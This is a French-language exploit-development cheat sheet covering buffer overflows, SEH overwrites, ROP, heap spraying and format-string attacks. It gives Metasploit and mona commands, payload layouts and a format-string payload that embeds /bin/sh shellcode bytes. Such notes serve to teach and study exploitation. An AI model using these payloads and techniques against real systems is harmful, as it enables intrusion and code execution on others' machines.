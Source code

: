 ```yaml
---
title: Buffer Overflows
permalink: /Buffer_Overflows/
---
```


# Buffer Overflows

## Généralités

Cette section contient des commandes générales utiles pour l'exploitation de buffer overflows.

Générer des patterns avec metasploit:

``` bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb 2700 # Génération du pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 39694438 # Trouver l'offset
```

Trouver un jmp avec mona dans un module spécifique:

``` bash
!mona jmp -!mona jmp -r esp -m user32.dll
```

Quand on teste un payload avec GDB il faut prendre en compte les variables d'environnement qui sont différentes dans GDB et dans un terminal "normal". Une astuce est de setter temporairement des variables dans le terminal normal (il y a notamment les variables COLUMNS et LINES qui sont présentes dans GDB)

### Bad characters

Pour rechercher des bad chars on peut générer un payload avec mona:

``` bash
!mona bytearray # Tous les caractères
!mona bytearray -cpb "\x00\x0a" # Tous sauf \x00 \x0a
```

On peut comparer un fichier avec le contenu en mémoire:

``` bash
!mona compare -f C:/mona/minishare/bytearray.bin -a 01010101 
```

Cette chaîne peut être utilisée pour chercher les "**bad chars**":

``` text
buf="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
buf+="\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
buf+="\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
buf+="\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
buf+="\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
buf+="\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
buf+="\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
buf+="\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
buf+="\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
buf+="\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
buf+="\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
buf+="\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
buf+="\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
buf+="\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
buf+="\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
buf+="\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Il faut également s'assurer que les bad chars n'empêchent pas le crash pour pouvoir facilement trouver à quel char on s'est arrêté.

### Générer shellcodes

On peut utiliser metasploit pour trouver les équivalents opcode de certaines instructions:

``` text
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```

## SEH Overflows

Les commandes mona suivantes permettent l'exploitation :
``` bash
!mona exchain # Affiche les enregistrements SEH (on peut aussi faire ALT+S)
!mona safeseh # Affiche les modules sans SafeSEH
!mona seh -m strmdll.dll # Chercher un pop,pop,ret dans le module indiqué
```

Il faut trouver un payload de la forme suivante:
``` bash
[JUNK][Short JMP          ][Address to POP, POP, RET][NOPs][Shellcode]
[????][Address to next SEH][Address of SEH Handler  ][???????????????]
```

Si on utilise msfvenom il faut préciser EXITFUNC=SEH.

## Unicode

msfvenom dispose d'un encoder pour générer des payloads compatibles avec de l'unicode:

``` bash
msfvenom -p windows/exec -e x86/unicode_mixed CMD=calc.exe BufferRegister=eax --format=py
```

Il est cependant nécessaire d'initialiser la valeur de registre eax pour qu'elle pointe vers le début du buffer. FuzzySecurity montre une démarche (voir détail complet dans le [tutorial](http://www.fuzzysecurity.com/tutorials/expDev/5.html)). 

## Return Oriented Programming (ROP)

Les commandes mona suivantes sont utiles pour les exploits ROP:

``` bash
!mona modules # Liste les informations sur les différents modules
!mona ropfunc -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les fonctions utiles pour ROP dans MSRMfilter03.dll (VirtualAlloc, etc.)
!mona rop -m MSRMfilter03.dll -cpb '\x00\x09\x0a' # Liste les gadgets dans MSRMfilter03.dll. Cette commande génère plusieurs fichiers. Le fichier rop_chains.txt contient la structure (valeurs à mettre dans les registres, etc.) pour faire un exploit valide.
```
## Heap attacks

## Structure de la Heap

La Heap est remplie de chunks. Ils peuvent soit etre en utilisation ou libre.

- Chunk utilisé:
``` bash
[Previous Chunk Size][Chunk Size + Flags][Data              ]
[4 bytes            ][4 bytes           ][(8 + (n/8)*8 bytes]
[*(buffer - 2)      ][*(buffer - 1)     ][*buffer           ]
```

 - Chunk libre:
 ``` bash
[Previous Chunk Size][Chunk Size + Flags][FD (pointer to next free chunk)][BK (pointer to previous free chunk)]
[4 bytes            ][4 bytes           ][4 bytes                        ][4 bytes                            ]
[*(buffer - 2)      ][*(buffer - 1)     ][*buffer                        ][*(buffer + 1)                      ]
```

### Heap Spraying

Le Heap Spraying est une méthode utilisée pour mettre le shellcode en mémoire. Via du JavaScript on met le shellcode précédé d'un large nopsled. Ceci permet de mettre dans EIP une adresse où on a une forte chance de tomber sur le nopsled.

## Format String

Une vulnérabilité de type format string permet de lire du contenu en mémoire mais aussi de le modifier ce qui permet de faire un RCE.

Format général du payload:

``` bash
'\xee\xf7\xff\xbf'
'\xec\xf7\xff\xbf'
'AAAA\xcc\xcc'
'\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f' '\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
'%49098d'
'%4\$hn'
'%14349d'
'%5\$hn
[Saved EIP+2][Saved EIP][SHELLCODE][%Xd][%4$hn][%Yd][%5$hn]
```
- %4hn & %5hn: le hn indique de modifier le 4/5e half-byte sur la stack et d'y mettre le nombre de caractère précédents.
- %Xd & %Yd: permettent de générer X et Y caractères.

### Références
- [Les failles Format String](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)

## Contournement de protections

### Stack Cookies

Méthodes de contournement:
- Cookie prévisible (statique, faible entropie, etc.)
- Attaque SEH

### Data Execution Prevention (DEP)

Méthodes de contournement:
- Return Oriented Programming
- Return to LIBC

### Address Space Layout Randomization (ASLR)

Méthodes de contournement:
- Partial EIP Overwrite (voir [tutorial Corelan](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/))

## Ressources

### Liens externes

- [64 Bits Linux Stack Based Buffer Overflow](https://www.exploit-db.com/docs/33698.pdf)
- [Windows Exploit Development - Part 1](http://www.shogunlab.com/blog/2017/08/19/zdzg-windows-exploit-1.html)
- [Tutorials Fuzzy Security](http://www.fuzzysecurity.com/tutorials.html)
